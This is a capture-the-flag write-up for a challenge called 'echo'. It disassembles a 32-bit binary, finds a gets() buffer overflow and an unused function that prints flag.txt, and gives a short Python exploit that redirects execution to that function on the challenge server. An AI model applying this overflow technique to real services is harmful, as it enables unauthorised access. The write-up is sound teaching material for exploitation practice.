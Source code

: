 Title: echo
Author: doskop
Date: 2015-04-03 4:33
Tags: CTF


## Introduction

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

## Analysis

Let's have a quick look at the binary, shall we?

    $ readelf -hl echo|egrep "Type|GNU_STACK"
      Type:                              EXEC (Executable file)
      Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
     GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
    $ readelf -s echo|egrep "FUNC.*GLOBAL.*DEFAULT"|grep -v UND
    
       45: 080486b0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
       55: 080486b4     0 FUNC    GLOBAL DEFAULT   14 _fini
       62: 08048640    97 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
       65: 08048480     0 FUNC    GLOBAL DEFAULT   13 _start
       68: 0804862b    18 FUNC    GLOBAL DEFAULT   13 main
       69: 0804857d   115 FUNC    GLOBAL DEFAULT   13 sample
       74: 080483b0     0 FUNC    GLOBAL DEFAULT   11 _init
       75: 080485f0    59 FUNC    GLOBAL DEFAULT   13 test

So, no ASLR for the main executable, non executable stack and 3 exported functions: main, sample and test. Let's take a look at the disassembly of those functions. The annotations in the output are mine.

    :::asm
    $ pwny symbol-disasm echo main
    push ebp
    mov ebp,esp
    and esp,byte -0x10
    call dword 0x80485f0  ; test
    mov eax,0x0
    leave
    ret
    
    $ pwny symbol-disasm echo test
    push ebp
    mov ebp,esp
    sub esp,byte +0x58
    lea eax,[ebp-0x3a]
    mov [esp],eax
    call dword 0x80483f0  ; gets
    mov dword [esp],0x1
    call dword 0x8048420  ; sleep
    mov eax,[0x804a038]   ; stderr
    lea edx,[ebp-0x3a]
    mov [esp+0x8],edx
    mov dword [esp+0x4],0x80486db  ; "ECHO: %s\n"
    mov [esp],eax
    call dword 0x8048450  ; fprintf
    leave
    ret
    
    $ pwny symbol-disasm echo sample
    push ebp
    mov ebp,esp
    sub esp,0x88
    mov dword [esp+0x4],0x80486d0  ; "r"
    mov dword [esp],0x80486d2  ; "flag.txt"
    call dword 0x8048460  ; fopen
    mov [ebp-0xc],eax
    cmp dword [ebp-0xc],byte +0x0
    jnz 0x80485aa
    mov eax,0x1
    jmp short 0x80485ee
    jmp short 0x80485c0
    mov eax,[0x804a038]  ; stderr
    mov [esp+0x4],eax
    lea eax,[ebp-0x70]
    mov [esp],eax
    call dword 0x8048470  ; fputs
    mov eax,[ebp-0xc]
    mov [esp+0x8],eax
    mov dword [esp+0x4],0x64
    lea eax,[ebp-0x70]
    mov [esp],eax
    call dword 0x8048400  ; fgets
    test eax,eax
    jnz 0x80485ac
    mov eax,[ebp-0xc]
    mov [esp],eax
    call dword 0x8048410  ; fclose
    mov eax,0x0
    leave
    ret

## Exploitation

It seems little Suzie left us some helpful code that outputs the flag and a buffer overflow vulnerability. Little Suzie has a lot to learn. Let's write 0x3a (offset of read buffer in the stack) + 4 (saved ebp) bytes of garbage and the address of the sample function to the buffer.

    #!/usr/bin/env python
    from pwny import *
    
    binary = ELF('echo')
    target.assume(binary)
    
    #f = Flow.execute('./echo', redirect_stderr=True)
    f = Flow.connect_tcp('hack.bckdr.in', 8002)
    f.writeline('A' * 62 + P(binary.get_symbol('sample').value))
    f.read_eof(echo=True)
